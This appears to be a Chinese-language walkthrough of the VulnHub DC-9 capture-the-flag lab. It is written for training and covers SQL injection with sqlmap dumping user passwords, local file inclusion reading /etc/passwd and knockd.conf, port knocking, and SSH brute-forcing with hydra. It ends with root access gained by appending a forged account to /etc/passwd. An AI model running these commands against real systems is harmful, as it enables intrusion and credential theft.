







# DC 9

下载地址：https://download.vulnhub.com/dc/DC-9.zip

## 实战演练

靶场IP：`192.168.32.168`



扫描对外开放端口

```
┌──(root💀kali)-[~/Desktop]
└─# nmap -p1-65535 192.168.32.168                                                                           1 ⚙
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-13 23:22 EDT
Nmap scan report for 192.168.32.168
Host is up (0.00090s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE    SERVICE
22/tcp filtered ssh
80/tcp open     http
MAC Address: 00:0C:29:86:F5:D2 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 1.64 seconds
                                                              
```

浏览器访问80端口



有一个搜索接口



有SQL注入漏洞

```
POST /results.php HTTP/1.1
Host: 192.168.32.168
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Origin: http://192.168.32.168
Connection: keep-alive
Referer: http://192.168.32.168/search.php
Upgrade-Insecure-Requests: 1

search=123
```

获取用户信息

```
┌──(root💀kali)-[/tmp]
└─# sqlmap -r 1.txt -p search  -D users  --dump-all  

Database: users
Table: UserDetails
[17 entries]
+----+------------+---------------+---------------------+-----------+-----------+
| id | lastname   | password      | reg_date            | username  | firstname |
+----+------------+---------------+---------------------+-----------+-----------+
| 1  | Moe        | 3kfs86sfd     | 2019-12-29 16:58:26 | marym     | Mary      |
| 2  | Dooley     | 468sfdfsd2    | 2019-12-29 16:58:26 | julied    | Julie     |
| 3  | Flintstone | 4sfd87sfd1    | 2019-12-29 16:58:26 | fredf     | Fred      |
| 4  | Rubble     | RocksOff      | 2019-12-29 16:58:26 | barneyr   | Barney    |
| 5  | Cat        | TC&TheBoyz    | 2019-12-29 16:58:26 | tomc      | Tom       |
| 6  | Mouse      | B8m#48sd      | 2019-12-29 16:58:26 | jerrym    | Jerry     |
| 7  | Flintstone | Pebbles       | 2019-12-29 16:58:26 | wilmaf    | Wilma     |
| 8  | Rubble     | BamBam01      | 2019-12-29 16:58:26 | bettyr    | Betty     |
| 9  | Bing       | UrAG0D!       | 2019-12-29 16:58:26 | chandlerb | Chandler  |
| 10 | Tribbiani  | Passw0rd      | 2019-12-29 16:58:26 | joeyt     | Joey      |
| 11 | Green      | yN72#dsd      | 2019-12-29 16:58:26 | rachelg   | Rachel    |
| 12 | Geller     | ILoveRachel   | 2019-12-29 16:58:26 | rossg     | Ross      |
| 13 | Geller     | 3248dsds7s    | 2019-12-29 16:58:26 | monicag   | Monica    |
| 14 | Buffay     | smellycats    | 2019-12-29 16:58:26 | phoebeb   | Phoebe    |
| 15 | McScoots   | YR3BVxxxw87   | 2019-12-29 16:58:26 | scoots    | Scooter   |
| 16 | Trump      | Ilovepeepee   | 2019-12-29 16:58:26 | janitor   | Donald    |
| 17 | Morrison   | Hawaii-Five-0 | 2019-12-29 16:58:28 | janitor2  | Scott     |
+----+------------+---------------+---------------------+-----------+-----------+
```

获取业务系统管理员账号密码

```
┌──(root💀kali)-[/tmp]
└─# sqlmap -r 1.txt -p search  -D Staff -T Users  --dump  

Database: Staff
Table: Users
[1 entry]
+--------+----------------------------------+----------+
| UserID | Password                         | Username |
+--------+----------------------------------+----------+
| 1      | 856f5de590ef37314e7c3bdf6f8a66dc | admin    |
+--------+----------------------------------+----------+
```

MD5解密为`transorbital1`



有个文件不存在提示



本地包含漏洞

```
http://192.168.32.168/manage.php?file=../../../../../../../etc/passwd
```



还记得过滤后的 SSH 端口，它可能表明使用了端口敲门方法吗？由于我们现在可以访问目标的文件系统，我们可以尝试找到默认位于/etc/文件夹中的`knockd.conf`配置文件。这意味着我们的 URL 应该是：

```
http://192.168.32.168/manage.php?file=../../../../../../../../etc/knockd.conf
```



使用knock进行端口打开

```
┌──(root💀kali)-[/tmp]
└─# knock 192.168.32.168 7469 8475 9842                                                                     1 ⚙
       
┌──(root💀kali)-[/tmp]
└─# nmap -p22 192.168.32.168                                                                                     1 ⚙
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-13 23:44 EDT
Nmap scan report for 192.168.32.168
Host is up (0.00016s latency).

PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 00:0C:29:86:F5:D2 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.20 seconds
```

使用hydra爆破SSH 用户

```
┌──(root💀kali)-[/tmp]
└─# hydra -L user.txt -P pass.txt ssh://192.168.32.168                                                           1 ⚙
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-13 23:52:09
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 936 login tries (l:52/p:18), ~59 tries per task
[DATA] attacking ssh://192.168.32.168:22/
[STATUS] 322.00 tries/min, 322 tries in 00:01h, 618 to do in 00:02h, 16 active
[22][ssh] host: 192.168.32.168   login: chandlerb   password: UrAG0D!
[22][ssh] host: 192.168.32.168   login: joeyt   password: Passw0rd
[22][ssh] host: 192.168.32.168   login: janitor   password: Ilovepeepee
[STATUS] 324.50 tries/min, 649 tries in 00:02h, 291 to do in 00:01h, 16 active
1 of 1 target successfully completed, 3 valid passwords found
[WARNING] Writing restore file because 15 final worker threads did not complete until end.
[ERROR] 15 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-07-13 23:55:03
```

使用janitor用户进行登录，发现一些密码

```
janitor@dc-9:~$ cat .secrets-for-putin/passwords-found-on-post-it-notes.txt 
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
janitor@dc-9:~$ 
```

根据新密码重新爆破

```
┌──(root💀kali)-[/tmp]
└─# hydra -L user.txt -P pass1.txt ssh://192.168.32.168                                                          1 ⚙
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-13 23:58:09
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 364 login tries (l:52/p:7), ~23 tries per task
[DATA] attacking ssh://192.168.32.168:22/
[22][ssh] host: 192.168.32.168   login: fredf   password: B4-Tru3-001
[22][ssh] host: 192.168.32.168   login: joeyt   password: Passw0rd
1 of 1 target successfully completed, 2 valid passwords found
[WARNING] Writing restore file because 9 final worker threads did not complete until end.
[ERROR] 9 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-07-13 23:59:06
```

使用`fredf`用户登录，查看sudo列表，发现一个`test`二进制程序

```
fredf@dc-9:~$ sudo -l
Matching Defaults entries for fredf on dc-9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fredf may run the following commands on dc-9:
    (root) NOPASSWD: /opt/devstuff/dist/test/test
```

找到程序的源码

```
fredf@dc-9:/opt/devstuff$ /opt/devstuff/dist/test/test
Usage: python test.py read append

fredf@dc-9:/opt/devstuff$ cat  test.py 
#!/usr/bin/python

import sys

if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)

else :
    f = open(sys.argv[1], "r")
    output = (f.read())

    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()
```

提权成功

```
fredf@dc-9:/opt/devstuff$ openssl passwd -1 -salt pavan 123456
$1$pavan$qv9M3fBmtDPrOTBZflNl81

fredf@dc-9:/opt/devstuff$ echo 'pavan:$1$pavan$qv9M3fBmtDPrOTBZflNl81:0:0::/root:/bin/bash' >> /tmp/raj 
fredf@dc-9:/opt/devstuff$ 
fredf@dc-9:/opt/devstuff$ sudo /opt/devstuff/dist/test/test  /tmp/raj /etc/passwd 
fredf@dc-9:/opt/devstuff$ su pavan
Password: 
```

```
root@dc-9:/opt/devstuff# cat /root/theflag.txt 


███╗   ██╗██╗ ██████╗███████╗    ██╗    ██╗ ██████╗ ██████╗ ██╗  ██╗██╗██╗██╗
████╗  ██║██║██╔════╝██╔════╝    ██║    ██║██╔═══██╗██╔══██╗██║ ██╔╝██║██║██║
██╔██╗ ██║██║██║     █████╗      ██║ █╗ ██║██║   ██║██████╔╝█████╔╝ ██║██║██║
██║╚██╗██║██║██║     ██╔══╝      ██║███╗██║██║   ██║██╔══██╗██╔═██╗ ╚═╝╚═╝╚═╝
██║ ╚████║██║╚██████╗███████╗    ╚███╔███╔╝╚██████╔╝██║  ██║██║  ██╗██╗██╗██╗
╚═╝  ╚═══╝╚═╝ ╚═════╝╚══════╝     ╚══╝╚══╝  ╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝╚═╝╚═╝
                                                                             
Congratulations - you have done well to get to this point.

Hope you enjoyed DC-9.  Just wanted to send out a big thanks to all those
who have taken the time to complete the various DC challenges.

I also want to send out a big thank you to the various members of @m0tl3ycr3w .

They are an inspirational bunch of fellows.

Sure, they might smell a bit, but...just kidding.  :-)

Sadly, all things must come to an end, and this will be the last ever
challenge in the DC series.

So long, and thanks for all the fish.

```
